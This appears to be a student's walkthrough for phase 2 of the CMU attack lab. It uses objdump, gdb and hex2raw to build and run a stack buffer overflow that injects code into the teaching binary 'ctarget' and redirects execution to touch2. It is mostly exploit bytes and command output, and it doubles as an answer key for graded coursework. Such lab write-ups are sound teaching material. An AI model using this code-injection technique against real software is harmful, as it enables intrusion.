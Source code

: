 ```c
objdump -d ctarget
```
```c
0000000000401808 <touch2>:
  401808:	48 83 ec 08          	sub    $0x8,%rsp
  40180c:	89 fe                	mov    %edi,%esi
  40180e:	c7 05 e4 2c 20 00 02 	movl   $0x2,0x202ce4(%rip)        # 6044fc <vlevel>
  401815:	00 00 00 
  401818:	3b 3d e6 2c 20 00    	cmp    0x202ce6(%rip),%edi        # 604504 <cookie>
  40181e:	75 1b                	jne    40183b <touch2+0x33>
  401820:	bf 68 2f 40 00       	mov    $0x402f68,%edi
  401825:	b8 00 00 00 00       	mov    $0x0,%eax
  40182a:	e8 51 f4 ff ff       	callq  400c80 <printf@plt>
  40182f:	bf 02 00 00 00       	mov    $0x2,%edi
  401834:	e8 c0 03 00 00       	callq  401bf9 <validate>
  401839:	eb 19                	jmp    401854 <touch2+0x4c>
  40183b:	bf 90 2f 40 00       	mov    $0x402f90,%edi
  401840:	b8 00 00 00 00       	mov    $0x0,%eax
  401845:	e8 36 f4 ff ff       	callq  400c80 <printf@plt>
  40184a:	bf 02 00 00 00       	mov    $0x2,%edi
  40184f:	e8 57 04 00 00       	callq  401cab <fail>
  401854:	bf 00 00 00 00       	mov    $0x0,%edi
  401859:	e8 92 f5 ff ff       	callq  400df0 <exit@plt>
  
  00000000004017c6 <getbuf>:
  4017c6:	48 83 ec 18          	sub    $0x18,%rsp <= 0x18 is 24 Bytes
  4017ca:	48 89 e7             	mov    %rsp,%rdi
  4017cd:	e8 38 02 00 00       	callq  401a0a <Gets>
  4017d2:	b8 01 00 00 00       	mov    $0x1,%eax
  4017d7:	48 83 c4 18          	add    $0x18,%rsp
  4017db:	c3                   	retq   
  ```
  ```c
  emacs phase2.s
  ```

  ```c
  movq $0x19195f9f, %rdi
  retq
  ```
  Save the file with <kbd>CTRL</kbd>+<kbd>x</kbd> then <kbd>CTRL</kbd>+<kbd>c</kbd> then <kbd>y</kbd>
  ```c
  gcc -c phase2.s
  ```
  ```c
  objdump -d phase2.o  > phase2.d
  ```
  ```c
  emacs phase2.d
  ```
  ```c
0000000000000000 <.text>:
   0:   48 c7 c7 9f 5f 19 19    mov    $0x19195f9f,%rdi
   7:   c3                      retq
  ```
  Save the file with <kbd>CTRL</kbd>+<kbd>x</kbd> then <kbd>CTRL</kbd>+<kbd>c</kbd> then <kbd>y</kbd>
  ```c
  gdb ctarget
  ```
   ```c
   b getbuf
   ```
   ```c
   r
   ```
   ```c
   disas
   ```
   ```c
   Dump of assembler code for function getbuf:
=> 0x00000000004017c6 <+0>:	sub    $0x18,%rsp
   0x00000000004017ca <+4>:	mov    %rsp,%rdi
   0x00000000004017cd <+7>:	callq  0x401a0a <Gets>
   0x00000000004017d2 <+12>:	mov    $0x1,%eax
   0x00000000004017d7 <+17>:	add    $0x18,%rsp
   0x00000000004017db <+21>:	retq
   ```
   ```c
   until *0x4017d2
   ```
   It will prompt you to type a string (String Larger than 24 bytes to get passed padding)
   
   ```c
   00 00 00 00 00 00 00 00 00 00 00 00 00 
   ```
   ```c
   x /s $rsp
   ```
   ```c
   0x5567d538:	"00 00 00 00 00 00 00 00 00 00 00 00 00"
   ```
   ```c
   emacs phase2.txt
   ```
   ```c
   48 c7 c7 9f 5f 19 19 c3 /* my cookie address */
   00 00 00 00 00 00 00 00 /* padding */
   00 00 00 00 00 00 00 00 /* padding */
   38 d5 67 55 00 00 00 00 /* address of register $rsp */
   08 18 40 00 00 00 00 00 /* address of touch2 function */
   ```
   Save the file with <kbd>CTRL</kbd>+<kbd>x</kbd> then <kbd>CTRL</kbd>+<kbd>c</kbd> then <kbd>y</kbd>
   ```c
   ./hex2raw < phase2.txt > raw-phase2.txt
   ```
   Just to see what hex2raw does to the bytes in phase2.txt we run
   ```c
   emacs raw-phase2.txt
   ```
   ```c
   H\307\307\237_^Y^Y\303^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@8\325gU^@^@^@^@^H\
   ^X@^@^@^@^@^@
   ```
   Save the file with <kbd>CTRL</kbd>+<kbd>x</kbd> then <kbd>CTRL</kbd>+<kbd>c</kbd> then <kbd>y</kbd>
   ```c
   ./ctarget < raw-phase2.txt
   ```
   ```c
   Cookie: 0x19195f9f
   Type string:Touch2!: You called touch2(0x19195f9f)
   Valid solution for level 2 with target ctarget
   PASS: Sent exploit string to server to be validated.
   NICE JOB!
   
   ```